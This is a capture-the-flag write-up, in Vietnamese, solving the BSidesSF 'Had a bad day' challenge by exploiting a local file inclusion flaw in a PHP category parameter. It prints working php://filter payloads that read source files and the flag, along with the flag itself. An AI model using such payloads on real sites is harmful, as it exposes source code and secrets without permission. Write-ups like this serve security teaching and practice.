






## Writeup
- [Link](https://had-a-bad-day-5b3328ad.challenges.bsidessf.net)
  Can you read flag.php?

- Vào link ta thấy 2 button WOOFERS, MEOWERS
  

- Click vào thì ta thấy url có dạng 
  /index.php?category=meowers hay /index.php?category=woofers
  
  
  Rất quen thuộc với lỗi LFI (Local File Inclusion)
  Ta thử dùng php://filter để test thử, cheat quen thuộc là dùng php://filter/convert.base64-encode/resource=index
- Ta gửi request đến url /index.php?category=php://filter/convert.base64-encode/resource=index và ta có res
  
  Có vẻ ta đã đi đúng đường, đề yêu cầu ta read flag.php
  Ta thử dò flag bằng gửi request đến url /index.php?category=php://filter/convert.base64-encode/resource=index/../flag
  
  Ta nhận được đoạn hash base64: PCEtLSBDYW4geW91IHJlYWQgdGhpcyBmbGFnPyAtLT4KPD9waHAKIC8vIENURntoYXBwaW5lc3NfbmVlZHNfbm9fZmlsdGVyc30KPz4=
  decode ra ta được flag: CTF{happiness_needs_no_filters}
  
  
